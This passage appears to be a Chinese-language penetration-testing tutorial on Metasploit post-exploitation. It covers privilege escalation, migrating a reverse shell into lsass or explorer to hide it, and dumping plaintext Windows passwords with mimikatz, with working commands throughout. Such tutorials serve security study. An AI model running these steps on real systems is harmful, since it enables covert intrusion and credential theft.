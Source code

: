 ```shell
一些msf的命令：
getuid		查看用户权限
getsystem	提权为管理员
sysinfo		查看系统信息
ps			查看进程
migrate pid	迁移进程至pid号进程
shell		进入主机的命令行
chcp 65001	设置活动代码页为UTF-8（936简体中文GBK，950繁体中文，437MS-DOS）
```

这里`getuid`可以看到咱们是god/admin，
（当然不是admin可能反弹shell都上传不了--，如果拿到shell需要提权的话msf也有命令可以提权：`getsystem`）

然后就是维持权限了，把咱们的反弹shell迁移到系统自身进程上去：
`ps`查看进程，再迁徙就行（一般可以注入到像是 lsass 或者 explorer 这样的进程当中，相对比较隐蔽，较难排查）
执行`migrate 504`即可
可以看到lsass进程pid为504，反弹shell进程为4300，执行后就由4300迁徙到504啦

![lsass进程pid为504](https://i.loli.net/2021/04/17/NS8DJQkWrHfLdoC.png)

![反弹shell进程为4300](https://i.loli.net/2021/04/17/27WBGoczia1PtO4.png)


也可以用进程名进行迁移，如下

```shell
# 迁移到任务管理器中
migrate -N explorer.exe  

# 设置反弹shell后自动迁移
set autorunscript migrate -N explorer.exe
或者
set autorunscript migrate -f (默认迁移到记事本)
```

然后就是抓取管理员密码了，windows抓取密码的话当然是mimikatz~：`load mimikatz`运行msf自带的mimikatz模块

> mimikatz：
> 1.`mimikatz`可以直接从 lsass.exe 进程里获取windows处于active状态账号的明文密码
>
> （lsass是微软Windows系统的安全机制它主要用于本地安全和登陆策略，通常我们在登陆系统时输入密码之后，密码便会储存在 lsass内存中，经过其 wdigest 和 tspkg 两个模块调用后，对其使用可逆的算法进行加密并存储在内存之中， 而 mimikatz 正是通过对lsass逆算获取到明文密码！也就是说只要你不重启电脑，就可以通过他获取到登陆密码，只限当前登陆系统！）
> 2.`mimikatz`模块的使用需要Administrator权限或者System权限。MSF中自带mimikatz模块，MSF中的 mimikatz 模块同时支持32位和64位的系统，但是`该模块默认是加载32位的系统`，所以如果目标主机是64位系统的话，直接默认加载该模块会导致很多功能无法使用。而且在64位系统下必须先查看系统进程列表，然后将meterpreter进程迁移到一个64位程序的进程中，才能加载mimikatz并且查看系统明文。但是在32位系统下则没有这个限制。
>
> ```
> 相关命令可以输入：help mimikatz来查看，如下
> (只能显示七个命令，可以通过mimikatz_command输入一条错误指令来显示完整的功能命令
> eg：mimikatz_command -f a::)
> kerberos：kerberos相关的模块
> livessp：尝试检索livessp凭据
> mimikatz_command：运行一个定制的命令
> msv：msv凭证相关的模块，列出目标主机的用户密码哈希
> ssp：ssp凭证相关的模块
> tspkg：tspkg凭证相关的模块
> wdigest：wdigest凭证相关的模块
> ```
> ![完整功能命令](https://i.loli.net/2021/04/17/MGgXVyiwhf2xka1.png)
>
> 这里用到的是`sekurlsa`下的`searchPasswords`功能来查看明文密码
> (ps:这里本身就是`NT AUTHORITY\SYSTEM`,就不用`privilege::debug`进行提权了)
>
> ```shell
> mimikatz_command -f sekurlsa::searchPasswords
> ```